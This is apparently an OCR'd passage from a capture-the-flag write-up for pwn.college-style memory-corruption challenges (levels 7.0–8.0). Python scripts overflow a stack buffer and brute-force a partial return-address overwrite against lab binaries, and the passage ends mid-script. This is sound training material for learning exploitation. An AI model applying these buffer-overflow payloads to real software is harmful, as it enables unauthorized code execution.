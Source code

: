 `python script.py 136` run it until you get the fourth byte right (1 in 16 chance)

<div alt="page-break" class="page-break"></div>

> Easier alternative: **memory.py**
>
> ```python
> import subprocess
> 
> file = "/challenge/babymem_level7.0"
> 
> payload = b"138\n"
> payload += b"A" * 136
> payload += b"\xbc\x13"
> 
> while True:
>     process = subprocess.Popen(file, stdin=subprocess.PIPE)
>     process.communicate(payload)
> ```
>
> `python memory.py | grep pwn`

## Level 7.1

`target_address = 0x2eaf`

`python script.py 88` run it until you get the fourth byte right (1 in 16 chance)

> Easier alternative: **memory.py**
>
> ```python
> import subprocess
> 
> file = "/challenge/babymem_level7.1"
> 
> payload = b"90\n"
> payload += b"A" * 88
> payload += b"\xaf\x1e"
> 
> while True:
>     process = subprocess.Popen(file, stdin=subprocess.PIPE)
>     process.communicate(payload)
> ```
>
> `python memory.py | grep pwn`

<div alt="page-break" class="page-break"></div>

## Level 8.0

**script8.py**

```python
import os
import sys
import struct
import subprocess

challenge_dir = "/challenge"
file = os.path.join(challenge_dir, os.listdir(challenge_dir)[0])

buffer_size = int(sys.argv[1])
target_address = 0x2989

payload = b"A\x00" * (buffer_size)
target_struct = struct.pack("<H", target_address) # H 2byte; I 4byte
```